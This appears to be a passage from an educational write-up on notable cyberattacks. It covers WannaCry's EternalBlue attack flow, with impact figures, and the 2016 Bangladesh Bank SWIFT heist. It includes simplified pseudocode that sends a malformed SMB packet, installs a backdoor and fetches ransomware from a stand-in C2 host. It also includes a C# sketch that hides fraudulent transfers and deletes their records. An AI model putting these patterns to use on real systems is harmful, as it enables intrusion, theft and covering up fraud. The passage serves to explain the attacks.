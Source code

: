 **EternalBlue Exploit**:
```python
# Simplified EternalBlue exploitation flow
def exploit_eternalblue(target_ip):
    """
    SMBv1 vulnerability exploitation
    """
    # 1. Send malformed SMB packet
    smb_packet = craft_malicious_smb_packet()
    
    # 2. Trigger buffer overflow
    send(target_ip, 445, smb_packet)
    
    # 3. Execute shellcode
    shellcode = generate_doublepulsar_backdoor()
    execute_remote_code(target_ip, shellcode)
    
    # 4. Install WannaCry
    download_and_execute("http://c2.malicious.com/wannacry.exe")
```

**Impact**:
- UK National Health Service: 80+ hospitals affected
- FedEx, Renault, Deutsche Bahn disrupted
- Estimated $4 billion in damages

#### SWIFT Heists (2016-2018)
**Targets**: Banks in Bangladesh, Ecuador, Vietnam, etc.  
**Objective**: Financial theft ($1B+ attempted, $81M stolen)

**Bangladesh Bank Heist**:
```
Timeline: February 2016
Method: 
  1. Initial Access: Spear-phishing
  2. Persistence: Custom malware on SWIFT workstations
  3. Lateral Movement: Network reconnaissance
  4. Execution: Fraudulent SWIFT transactions
  5. Money Laundering: Casino accounts in Philippines

Technical Details:
  - Modified SWIFT Alliance Access software
  - Deleted transaction logs
  - Manipulated PDF confirmation receipts
  - Timing: Executed during Bangladesh holidays
```

**Custom SWIFT Malware**:
```csharp
// Malware that manipulates SWIFT messages
class SwiftManipulator
{
    void InterceptSWIFTMessage(Message msg)
    {
        // Hide fraudulent transactions
        if (msg.Amount > 1000000)
        {
            // Don't display in interface
            msg.Visible = false;
            
            // Delete from database
            DeleteTransactionRecord(msg.Id);
            
            // Manipulate confirmation
            ModifyConfirmationPDF(msg);
        }
```